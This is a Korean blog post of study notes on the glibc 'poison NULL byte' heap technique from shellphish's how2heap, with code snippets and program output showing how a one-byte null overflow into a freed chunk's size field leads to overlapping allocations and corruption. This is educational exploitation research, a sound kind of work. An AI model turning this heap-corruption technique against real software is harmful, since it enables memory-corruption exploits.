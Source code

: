 ```yaml
---
layout: post
title: "Poison NULL byte"
date: 2016-06-13 16:46:53 +0900
comments: true
categories: 
---
```


[Shellphish 가 쓴 힙 공격 문서중에 하나, Poison NULL byte](https://github.com/shellphish/how2heap/blob/master/poison_null_byte.c) 를 읽고 정리한다.

* 참고 문서: [Glibc Adventures: The Fogotten Chunks](http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)

우선 a,b,c 를 차례로 alloc 한다.

Ubuntu 에서 0x100 을 을 alloc 하고, `malloc_usable_size()` 를 해보면, 0x108 이 나온다. Rounding 때문인지, 요청한 것보다 메모리 영역이 더 잡혔다.

```
a = (uint8_t*)malloc(0x100);
b = (uint8_t*)malloc(0x200);
c = (uint8_t*)malloc(0x100);
```

* 이제 `uint64_t* b_size_ptr = (uint64_t*)(b-8);` 을 통해서, `struct malloc_chunk` 구조체 멤버인 `INTERNAL_SIZE_T size;` 를 가리키는 포인터를 만든다.

* 이 구조체를 이용해 b.size 를 찍어볼 수가 있는데,

* 0x211 로 나온다. `(0x200 + 0x10) | prev_in_use` 가 되는 것. 

* 이제 `a[real_a_size] = 0;`  을 통해서, b.size 의 하위 1 바이트를 0 으로 만든다.

* b.size 를 찍어보면 이제 0x210 으로 나온다.

* 이제 c.prev_size 를 찍어본다. b 를 free 했기때문에, 유효한 필드가 되버렸다. 찍으면 0x210 이 나온다.

* 이제 `b1 = malloc(0x100);` 을 한다. 그러면 예전 b 자리에 할당될 것이다.

만약 `a[real_a_size] = 0;` 을 안했다면, 다음과 같이 c.prev 가 제대로 update 되는데... (0x200 으로 앨록한 자리에 0x100 을 앨록했으니, c 앞에 free chunk 가 존재)

```
~ » ./a.out                                                              z@ubuntu
a: 0x1466010
real_a_size: 0x108
b: 0x1466120
real_b_size: 0x208
c: 0x1466330
addr of b_size_ptr: 0x1466118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
addr of c_prev_size_ptr: 0x1466320
c.prev_size is 0x210
b1: 0x1466120
c.prev_size is 0x100
c' 0x100
c'' 0
```

`a[real_a_size] = 0;`... 즉 앞의 청크에서 NULL 바이트 오버플로우가 일어났다면... 그래서 b.size 의 하위 1 바이트를 0 으로 만들었다면 무슨 일이 벌어지는가? (`c'` 는 `c - 16`, `c''` 는 `c - 32`)

```
~ » ./a.out                                                              z@ubuntu
a: 0x1466010
real_a_size: 0x108
b: 0x1466120
real_b_size: 0x208
c: 0x1466330
addr of b_size_ptr: 0x1466118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
addr of c_prev_size_ptr: 0x1466320
c.prev_size is 0x210
b1: 0x1466120
c.prev_size is 0x210
c' 0x210
c'' 0xf0
```

c.prev_size 가 제대로 update 되지 않는다. 0x210 -> 0x100 으로 줄어야하는데. 대신 엉뚱한데 0f0 이 써졌다.

정리하면, `a|b|c` 가 앨록된 상황에서, b 가 프리되고, a 가 overflow 되면서 b.size 의 1 바이트가 0 으로 바뀌었다. 그랬더니, 추후 앨록을 하니까 c 의 메타데이터가 연쇄반응으로 깨져버렸다.

이제,

* 현재 `a|b1|(free)|c` 로 앨록된 상황이다. c.prev_size 는 지나치게 크게 되어있다. b1 까지도 free 하다고 잘못 생각하고 있는 상황.

이제 `b2` 를 앨록한다.

* 그럼 `a|b1|b2|(free)|c` 로 앨록된 상황이다. 여전히 c.prev 는 잘못되어있다.

* 여기서 `free(b1); free(c);` 를 해준다음에 꽤 큰 사이즈를 앨록 요청하면, 상식적으로 `c` 다음에 앨록되어야 하나, 메모리 매니저는 `b == b1` 자리에 앨록한다. `d` 와 b2` 가 overlapping 되는 셈.

* 이제 `d` 에다가 쓰인 데이터는 `b2` 가 가리키는 메모리를 를 corrupt 시킨다.

* 교훈은, malloc 에서 경계를 넘어가서, 1 바이트만 NULL 로 overwrite 되어도 메모리 커럽션이 일어날 수 있다는 것.

`b.size` 의 `prev_in_use` 가 overwrite 되지 않았을 경우,

```
~ » ./a.out                                                      z@ubuntu
a: 0x12f4010
real_a_size: 0x108
b: 0x12f4120
real_b_size: 0x208
c: 0x12f4330
addr of b_size_ptr: 0x12f4118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
addr of c_prev_size_ptr: 0x12f4320
c.prev_size is 0x210
b1: 0x12f4120
c.prev_size is 0x100
c - 8 0x110
c - 16 0x100
c - 24 0
c - 32 0
b2: 0x12f4230
Current b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
c.prev_size is 0x70
c - 8 0x110
c - 16 0x70
c - 24 0
c - 32 0
d: 0x12f42c0
New b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

이번에는 `b.size` 의 `prev_in_use` 가 corrupt 되었을 경우, `b2` 가 corrupt 됨을 알 수 있다.

```
a: 0x1655010
real_a_size: 0x108
b: 0x1655120
real_b_size: 0x208
c: 0x1655330
addr of b_size_ptr: 0x1655118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
b.size after free: 0x200
addr of c_prev_size_ptr: 0x1655320
c.prev_size is 0x210
b1: 0x1655120
c.prev_size is 0x210
c - 8 0x110
c - 16 0x210
c - 24 0
c - 32 0xf0
b2: 0x1655230
Current b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
c.prev_size is 0x210
c - 8 0x110
c - 16 0x210
c - 24 0
c - 32 0x60
d: 0x1655120
New b2 content:
DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
```
